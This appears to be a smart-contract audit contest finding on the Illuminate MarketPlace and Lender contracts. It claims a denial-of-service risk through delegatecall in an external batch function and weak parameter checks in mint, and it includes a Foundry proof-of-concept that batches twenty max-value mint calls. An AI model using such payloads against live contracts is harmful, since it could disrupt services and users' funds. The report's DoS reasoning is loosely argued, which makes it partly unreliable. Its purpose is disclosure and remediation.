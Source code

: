 Zer0Luck

medium

# Zer0Luck - A vulnerability to a dos attack occurs due to the use of the delegatecall command within the batch function that is available from the outside. A vulnerability to improper parameter validation in the mint function also exists.

## Summary
- A vulnerability to a dos attack occurs due to the use of the delegatecall command within the batch function that is available from the outside.
- A vulnerability to improper parameter validation in the mint function also exists.

## Vulnerability Detail
**A vulnerability to a dos attack occurs due to the use of the delegatecall command within the batch function that is available from the outside.** 
https://github.com/sherlock-audit/2023-01-illuminate/blob/main/src/MarketPlace.sol#L638-L651

https://github.com/sherlock-audit/2023-01-illuminate/blob/main/src/Lender.sol#L1068-L1083

It has been identified that the function is able to receive ether by assigning the `payable` and trigger a specific function, and also able to receive a `byte array type` as an argument, which means that it is possible to repeatedly call the function. An attack vector exists where `delegatecall` can be performed within the `address(this)` corresponding address of `MarketPlace.sol` and `Lender.sol.`
 Due to the lack of internal validation or confirmation of external user access or call origin address, an attacker can repeatedly call the function with a large amount of data, making it a vulnerability.

**A vulnerability to improper parameter validation in the mint function also exists.**
https://github.com/sherlock-audit/2023-01-illuminate/blob/main/src/MarketPlace.sol#L474-L509

 The mint function does not properly validate the values of its parameters, allowing for the possibility of passing 0or unintended values for b,p, minRatio, maxRatio. This can result in errors within the function not causing a revertto occur and instead returning the underlyingIn, principalTokensIn, mintedvalues to the user who called the function.

## Impact
 It is possible to use delegatecallto repeatedly call functions within the contracts marketPlace.sol, Lender.solby assigning the simple byte data structure below, creating a vector for additional gas consumption and potentially causing a service denial of service (DOS) attack.
```solidity
payload[0] = abi.encodeWithSignature(
  "exploit(address)",
  address(mp.admin())
);
```
 While the parent call is limited to the specific contract, if an attacker were to use the batch function to call multiple dependent functions within the contract, it could result in severe gas consumption and potential conflicts with state variables.
 It is possible to verify that an attacker continuously calls the mint function by using the payload below, and it can also be verified that there is no internal validation for the arguments used when calling the mint function. For example, if the maximum value is entered, the transaction will be successful, Also, the validation for the minRatio, maxRatio is inadequate, so it is possible to process the same value even if it is entered.

```solidity
// POC
function testExploit() public {
    // [vuln] function function batch(bytes[] calldata c)

    // address admin check
    emit log_named_address("[Attacker::Exploited] Admin => ", mp.admin());


    // batch call => mint
    vm.startPrank(attacker);
    pool.baseReturns(address(token1));
    pool.fyTokenReturns(address(token2));
    token1.transferFromReturns(true);
    token2.transferFromReturns(true);
    pool.mintReturns(1, 2, 3);

    uint256 uA = ~uint256(0);
    uint256 ptA = ~uint256(0);
    uint256 minRatio = ~uint256(0);
    uint256 maxRatio = ~uint256(0);
    // mp.mint(underlying, maturity, uA, ptA, minRatio, maxRatio);

    // DOS
    bytes[] memory payload = new bytes[](20);
    for (uint256 x; x != payload.length;) {
        payload[x] = abi.encodeWithSignature(
            "mint(address,uint256,uint256,uint256,uint256,uint256)",
            underlying,
            maturity,
            uA,
            ptA,
            minRatio,
            maxRatio
        );
        unchecked {
            x++;
        }
        emit log_named_uint("[Attacker=>mint batch dcall", x);
    }

    mp.batch(payload);
    vm.stopPrank();   
}

```
- A vulnerability in the form of a service denial of service (DOS) attack and storage collision, stemming from the use of the delegatecall command within the batch function.
- A vulnerability to improper parameter validation in the mint function, where it does not properly validate the values of its parameters.

## Code Snippet
See Vulnerability Detail
## Tool used
Manual Review

## Recommendation
- It is necessary to have internal validation for the functions called through `delegatecall` within the batch function.
- It is necessary to limit the gas consumption of the functions called through `delegatecall` within the batch function.
- It is necessary to prevent storage pollution of the functions called through `delegatecall` within the batch function.
- It is necessary to have branch validation for `minRatio, maxRatio` within the `mint` function.
- It is necessary to have branch validation for `uA, ptA` within the `mint` function.